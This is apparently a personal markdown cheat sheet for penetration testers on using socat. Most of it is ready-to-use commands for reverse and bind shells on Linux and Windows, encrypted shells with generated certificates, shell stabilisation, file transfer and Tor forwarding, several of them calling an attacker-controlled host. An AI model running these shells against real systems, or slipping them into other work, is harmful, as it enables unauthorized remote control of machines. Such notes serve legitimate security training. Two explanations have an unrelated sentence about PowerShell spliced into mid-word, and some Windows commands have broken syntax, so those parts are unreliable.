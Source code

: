 # Socat 

[Socat](https://linux.die.net/man/1/socat) is a command-line utility that establishes two bidirectional byte streams and transfers data between them. For penetration testing, it is similar to Netcat but has additional useful features. 

Socat requires:
1. "-" to transfer data between STDIO and remote host
1. protocol name
1. Any protocols, options, port ARE colon delimited

```bash
socat - TCP4:<remoteIP>:PORT

socat TCP4-LISTEN:8080 STDOUT

socat TCP4:ip:port EXEC:/bin/bash
```

## Reverse Shells
Start a listener:
```bash
socat TCP-L:<PORT> -                                 # connect regardless with '-'
socat -d -d TCP-LISTEN:8080 STDOUT                   # -d -d = increase verbosity of output#
socat TCP4-LISTEN:8080,fork file:filename.txt,create 
# create specifies that a new file will be created.
# fork creates a child process once connection is made to the listener(multiple connections allowed)
```

Connect to reverse Shell:
```powershell
# Windows!
.\socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
.\socat.exe TCP:<IP>:<Port> EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```
On Linux
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

## Bind Shells
Start a bind listener
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
Connect to target regardless:
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

## Shell stablisation
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
[CTRL+Z]
stty raw -echo; fg 
```

Fixing terminal size
```bash
stty size
stty -rows 48 -columns 120
```

## File transfers
```bash
socat TCP4-LISTEN:$PORT,fork file:$filename
```

## Special upload precompiled socat binary 
```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
1. pty, allocates a pseudoterminal on the target -- part of the stabation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer toilisation process
1. stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
1. sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
1. setsid, creates the process in a new session
1. sane, stabilises the terminal, attempting to "normalise" it

Similiarly on Windows:
```batch
.\socat.exe TCP-LISTEN:443,fork EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```


### Encrypted Shells
 
Generate a Certificate
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
```
req indicates that this is a certificate signing request. 
-x509 specifies that we want an X.509 certificate
-newkey rsa:4096 creates a new certificate request and a new private key using RSA, with the key size(Optional sizes!) being 4096 bits. 
-days 365 shows that the validity of our certificate will be one year
-subj sets data, such as organization and country, via the command-line.
-nodes simplifies our command and does not encrypt the private key
-keyout `PRIVATE\_KEY` specifies the filename where we want toation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer to save our private key
-out CERTIFICATE specifies the filename to which we want to write the certificate request

Merge the two files:
```bash
cat shell.key shell.crt > shell.pem
```
Setup reverse shell listener 
```bash
# Linux
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 - # verify=0 means dont bother trying to validate cert 
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
If on windows:
```powershell
.\socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe,pty,std
err,setsid,sigint,sane
```

The same for bind shell
```powershell
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash # For windows after:" ,verify=0 EXEC='cmd.exe' "
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
Socat listener and conection on windows
```bash
socat.exe -d OPENSSL-LISTEN:5678,cert=<cert>, verify=0 STDOUT, bind=127.0.0.1
socat.exe OPENSSL:127.0.0.1:5678, verify=0 EXEC=’cmd.exe
```

## Less Common Cool Usages
```bash
# Connect to a http server
socat TCP4:domain.com:80 -
# Connect to a https server
socat TCP4:domain.com:443 -

# Output hexdump from a port
socat -x tcp-listen:$port,fork -

# (sleep is necessary to prevent socat closing socket before data received)
(echo -e "GET / HTTP/1.1\r\nHost: butzel.info\r\n\r" && sleep 1) \ | socat TCP4:domain.com:80 -

# http to httpS 'Proxy' (for an webserver without TLS-Support)
socat OPENSSL-LISTEN:443,reuseaddr,pf=ip4,fork,cert=server.pem,cafile=client.crt,verify=0 TCP4-CONNECT:127.0.0.1:80

# udp to tcp
socat -u udp-recvfrom:1234,fork tcp:localhost:4321

# TOR-forwarding (needs tor-daemon on port 9050 running)
socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050
#https://superuser.com/questions/1302861/how-i-can-make-port-forwarding-using-tor#1302869
```

[[Port-Redirection-And-Tunneling]] with Socat
```bash
socat TCP4-LISTEN:$port,reuseaddr,fork TCP4:domain.com:ssh
```
`
## References

[jackadamson](https://jackadamson.github.io/cheatsheets/socat/)
[gothburz](https://github.com/gothburz/OSCP-PWK2.0/blob/master/practical-tools/socat-shell-cheatsheet.md)
[cheat](https://github.com/cheat/cheatsheets/blob/master/socat0)